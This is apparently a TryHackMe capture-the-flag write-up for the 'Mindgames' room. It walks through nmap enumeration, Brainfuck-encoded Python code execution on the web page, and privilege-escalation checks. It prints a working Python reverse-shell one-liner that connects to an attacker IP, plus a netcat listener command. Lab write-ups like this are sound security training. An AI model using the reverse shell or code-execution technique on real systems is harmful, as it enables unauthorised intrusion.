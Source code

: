 ![Banner](Images/mindgames_banner.png)

# Mindgames 
### Room by [NinjaJc01](https://tryhackme.com/p/NinjaJc01)
### Difficulty: Hard

#Enumeration:

**Nmap:**

`nmap -sC -sV -A 10.10.234.149 -Pn`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 18:28 BST
Nmap scan report for 10.10.234.149
Host is up (0.023s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds

```
Nmap returns 2 open ports: **22** (SSH) and **80** (web server).

**Gobuster:** `gobuster dir -u http://10.10.234.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Returns no results. 

Visiting the web server reveals some encoded commands, and somewhere to run commands:
![Port:80](Images/webpage.png)

If you've taken part in a few CTF's,  you may recognise the language to be "BrainFuck". 

> **Brainfuck** is an esoteric programming language created in 1993 by Urban Müller, and is notable for its extreme minimalism. The language consists of only eight simple commands and an instruction pointer. While it is fully Turing complete, it is not intended for practical use, but to challenge and amuse programmers. 

Decode the 'Hello World' command, to find out that it's written in Python3. [Online encoder/interpreter](https://www.dcode.fr/brainfuck-language)
```Python
print("Hello World")
```
**Testing Code** 
Encode `import os; os.system('id')` and run it on the server: \ ![ID](Images/id.png)

# Foothold:

Set up a Listener on the attacking box: `nc -lvnp 1234`
Encode a python reverse shell in ||BrainFuck||:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10.",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

```
Run the command:
![Execute](Images/revshell.png)
![Shell](Images/popped_a_shell.png)

# PrivEsc:
**Manual Enum**
List users in /home:`ls -la /home`
Can we run anything as sudo?:
```
mindgames@mindgames:~$ sudo -l
[sudo] password for mindgames: 

```
Look for any `SUID` binaries: 
```
mindgames@mindgames:~$ find / -perm -4000 2>/dev/null
```
List processes to see whats running and by which user: 
```
ps -ef
ps aux
ps -ef | grep root
```
See if theres any 'special'/unusual capabilities set on binaries: `getcap -r / 2>/dev/null`
![GetCap](Images/getcap.png)

